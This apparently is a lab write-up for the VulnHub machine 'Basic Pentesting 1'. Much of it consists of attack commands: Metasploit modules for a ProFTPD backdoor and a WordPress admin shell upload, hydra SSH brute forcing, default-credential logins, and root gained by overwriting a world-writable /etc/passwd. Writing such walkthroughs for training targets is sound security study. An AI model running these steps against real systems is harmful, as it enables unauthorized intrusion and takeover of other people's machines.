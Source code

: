 <h1 align="center">
  <a href="https://www.vulnhub.com/entry/basic-pentesting-1,216/">Basic_Pentesting1</a>
</h1>

## Port Scanning

```bash
$ nmap -A <target_ip>

Other Scanning Examples:
$ nmap -A -p- -T4 <target_ip>
$ nmap -sV -sC <target_ip>
```

## Open Ports

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/OpenPorts.png)

---

## Exploiting port 21 ProFTPD 1.3.3c

```bash
$ msfconsole
$ search ProFTPD
$ use exploit/unix/ftp/proftpd_133c_backdoor
$ set rhosts <target_ip>
$ set rport 21
$ run/exploit
```

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Proftpd.png)

---

## User enumeration
We had found that the users are marlinspike and root from previous ftp exploit.

## Bruteforcing into port 22 (SSH) using hydra trying default credentials
```bash
$ hydra -l marlinspike -P <wordlist> ssh://target_ip -V

Password Found for user(marlinspike):
[22][ssh] host: 192.168.1.70   login: marlinspike   password: marlinspike
```

## Privilege Escalation
> find / -type f -perm -u=s 2>/dev/null

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc1.png)


After researching, we find that the user(marlinspike) can use all the commands.

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc0.png)

Now, let's try abusing binary `sudo su` and enter password of the user `marlinspike/marlinspike` and boy we are in :V

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc-Success.png)

---

## Directory Enumeration for port 80 (http-server)

> gobuster dir -u <target_url> -w <path_to_wordlist>


![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Directory-Enum.png)

We found /secret directory. Let's check in the browser.
We can see a wordpress blog running on the the server.


We can see that the webpage is not properly loading. 
So let's add the vtcsec into our /etc/hosts file and check how the webpage looks afterward.

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Hosts.png)
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Wordpress.png)


Now, let's go to wp-admin as it is the admin panel for wordpress sites and
try default login credentials i.e admin/admin we're in.
If the default credentials wouldn't have worked we probably would have needed to
bruteforce into the admin panel via burpsuite intruder or hydra or by using
any bruteforcing tools you prefer.

Now, let's try to gain access with wordpress exploit via metasploit.
```bash
$ msfconsole
$ search wp_admin
$ use exploit/unix/webapp/wp_admin_shell_upload

set every options that is needed for the exploit.
```

We can see that we got ourselves a meterpreter session.
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/reverse_shell.png)



## Privilege Escalation
To check for any potential misconfigurations that could lead to privilege escalation, a good script to use is the unix-privesc-check script from [pentestmonkey](https://github.com/pentestmonkey/unix-privesc-check)


This can be uploaded from the meterpreter session by running the following command:
> upload /usr/bin/unix-privesc-check /tmp/unix-privesc-check


After we upload the file to the server we then can execute the file:
```bash
$ shell
$ cd /tmp
$ chmod +x unix-privesc-check
```


The author of unix-privesc-check recommends to grep the output for WARNING, which will show any potential misconfigurations. This can be run as one single command:
> ./unix-privesc-check standard | grep WARNING


We can see `WARNING: /etc/passwd is a critical config file. World write is set for /etc/passwd` after executing the unix-privesc-check.

This means that we can write into the /etc/passwd file. So, let's download the file into our host machine by getting back into our meterpreter shell and executing:
> download /etc/passwd <path_where_to_save>


Now, from a local terminal, we can use openssl to generate a new hashed password:
> openssl passwd -1 lol

We get our hashed password i.e `$1$X5FkPmLQ$h0yILWHDiUeWUeezpmWU20`
Now, open the passwd file we downloaded before and replace x after root like:
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Hashed.png)


Now, all we need to do is upload the modified passwd file from our host to target server
	using:
> upload <path_where_you_saved> /etc/passwd

To make the shell interactive:
> python -c 'import pty; pty.spawn("/bin/bash")'

Finally, we can switch to root's account. 
```bash
$ su root
Password: lol
```
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/final-root-access.png)


<a href="https://github.com/ninchy0">ninchy0</a>